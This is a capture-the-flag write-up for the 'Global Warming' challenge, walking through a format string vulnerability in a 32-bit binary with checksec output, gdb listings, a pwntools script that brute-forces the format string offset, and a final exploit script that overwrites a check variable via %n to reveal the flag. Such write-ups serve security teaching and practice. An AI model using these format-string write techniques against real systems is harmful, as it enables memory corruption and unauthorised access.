 # Global Warming

## Global Warming

### Protections

Let's first run `checksec` to see what protections the file has:

```text
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Here we don't see many protection, there's only `NX`, which means no shellcode, and `ASLR` is likely enabled serverside

### Running the file

Running the file we see that we are first prompted for input, and then when we enter some, we are given an error message, and then terminates:

```text
$ ./global-warming
aaaa
aaaa
You cannot login as admin.
```

However it's important to note that our input is printed back to us, let's check for a format string exploit:

```text
$ ./global-warming
%x
f7f2d2c0
You cannot login as admin.
```

And it's fortunately vulnerable to format strings

### Reversing

Let's load this into ghidra to get some pseudo-c code

![main](../.gitbook/assets/globalwarmingmain.png)

Here we see it take input with fgets, where it makes a secure copy to the buffer \(reads 1024 into a 1024 big buffer\), so no buffer overflow here. It then calls `login` with this input, and another value that's unkown. Let's check in gdb what this is:

```text
   0x804928a <main+139>:        push   eax
   0x804928b <main+140>:        lea    eax,[ebx-0x1fd0]
   0x8049291 <main+146>:        push   eax
=> 0x8049292 <main+147>:        call   0x80491a6 <login>
   0x8049297 <main+152>:        add    esp,0x10
   0x804929a <main+155>:        mov    eax,0x0
   0x804929f <main+160>:        lea    esp,[ebp-0x8]
   0x80492a2 <main+163>:        pop    ecx
Guessed arguments:
arg[0]: 0x804a030 ("User")
arg[1]: 0xffffce90 ("aaaa\n")
```

Seems like a `user` variable that we might need to change. Let's decompile `login`:

![login](../.gitbook/assets/globalwarminglogin.png)

So it prints our input back to us without a format specifier, hence the format string exploit. Then it compares a variable to the value `0xb4dbabe3`, if equal, we get the flag

We can just assume that the previosu value is that variable, but let's just check that with gdb:

```text
=> 0x80491c6 <login+32>:        mov    eax,DWORD PTR [ebx+0x2c]    <== moves the value into eax
   0x80491cc <login+38>:        cmp    eax,0xb4dbabe3              <== compares with the value
   0x80491d1 <login+43>:        jne    0x80491e7 <login+65>        <== jumps past the flag if they aren't equal
```

Here's the `if` statement if assembly. At this instruction:

```text
EBX: 0x804c000 --> 0x804bf00 --> 0x1
```

So the variable is stored at `0x804c02c`, not at `0x804a030`

### Exploit

To complete this challenge we need to use the format string exploit to _write_ the value `0xb4dbabe3` at that memory address \(with the use of `%n`\), so we can pass the check, and get the flag. Fortunately, pwntools has a feature to automate this for us:

`fmtstr_payload(offset, {address : value}`

Since we are writing at the address `0x804c02c`, `address` would be that, and `value` is `0xb4babe3`

We need to find the offset though, which is basically the format string offset where it shows us our input. For example, if I did:

```text
AAAA %6$x
```

And it returned:

```text
AAAA 41414141
```

`6` would be our offset

To find this, I used the below program to brute force it:

```python
from pwn import *

e = ELF("./global-warming")

for i in range(20):
    io = e.process(level="error")
    io.sendline("AAAA %%%d$lx"% i )
    print("%d - %s" % (i, io.recvline().strip()))
    io.close()
```

Running it:

```text
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
0 - b'AAAA %0$lx'
1 - b'AAAA f7f5f2c0'
2 - b'AAAA fbad2087'
3 - b'AAAA 80491b2'
4 - b'AAAA f7f20000'
5 - b'AAAA 804c000'
6 - b'AAAA ffd235b8'
7 - b'AAAA 8049297'
8 - b'AAAA 804a030'
9 - b'AAAA fff1e550'
10 - b'AAAA f7eff580'
11 - b'AAAA 8049219'
12 - b'AAAA 41414141'   <== this one
13 - b'AAAA 33312520'
14 - b'AAAA a786c24'
15 - b'AAAA fff92800'
16 - b'AAAA 3'
17 - b'AAAA 0'
18 - b'AAAA f7fc9000'
19 - b'AAAA f7d04748'
```

We find our offset is `12`. This makes our payload look like this:

```text
fmtstr_payload(12 , {0x804c02c : 0xb4dbabe3})
```

### Script

Our final exploit script now looks like this:

```python
from pwn import *

p = remote("chall.csivit.com", 30023)

value = 0xb4dbabe3

payload = fmtstr_payload(12 , {0x804c02c : value})

p.sendline(payload)

print(p.clean())
```

**csictf{n0**_**5tr1ng5**_**@tt@ch3d}**

